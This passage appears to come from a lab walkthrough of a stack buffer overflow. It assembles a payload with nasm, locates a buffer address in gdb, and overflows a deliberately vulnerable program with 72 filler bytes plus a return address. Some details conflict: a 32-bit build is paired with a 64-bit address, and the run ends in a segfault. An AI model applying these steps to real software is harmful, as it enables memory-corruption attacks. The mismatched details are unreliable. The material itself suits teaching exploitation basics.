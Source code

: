 * Save the assembly code in a file named asm_code.asm, and then assemble and link it:

```bash
nasm -f elf32 -o asm_code.o asm_code.asm
ld -m elf_i386 -o asm_code asm_code.o
```
![image](https://github.com/user-attachments/assets/d9e73715-0fd3-4efb-9992-71930bda3b1c)

## 5. Load redundant_code  to gdb

```bash
gdb ./redundant_code
```
You need to find the address of the `redundant_code` binary in memory. This address will be used in the exploit string to redirect execution to the payload. To do this, you can use a debugger like `gdb`:
## 6. Finding the Address of the Payload


```bash
break redundant_code
run $(python -c "print('A'*72)")
p &buffer
```
![image](https://github.com/user-attachments/assets/36f0874d-2122-46a6-8730-2c01e085cdef)

![image](https://github.com/user-attachments/assets/cfb563e9-a78f-476c-b633-ef624a9935c2)

![image](https://github.com/user-attachments/assets/f53071fa-d402-4fc9-a824-a2de2da75055)



Inside `gdb`, set a breakpoint in the `redundant_code`, run the program with a dummy argument, and find the address of your payload. This will typically be after the buffer size.

Make a note of the address is `0x7ffff7fb9278`; you'll use it in the next step.

## 7. Execute the Vulnerable Program with the Payload

Run the vulnerable program with the crafted payload:

```bash
./redundant_code "$(python3 -c "print('a'*72 + '\x78\x92\xfb\xf7\xff\x7f')")"
```

Generated a string of 72 'a' characters followed by a byte sequence intended to manipulate the program's execution flow. The output resulted in a "Segmentation fault (core dumped)," confirming the presence of a buffer overflow vulnerability in the redundant_code program.

## 8. Verify the Output

```bash
cat /tmp/outfile
```

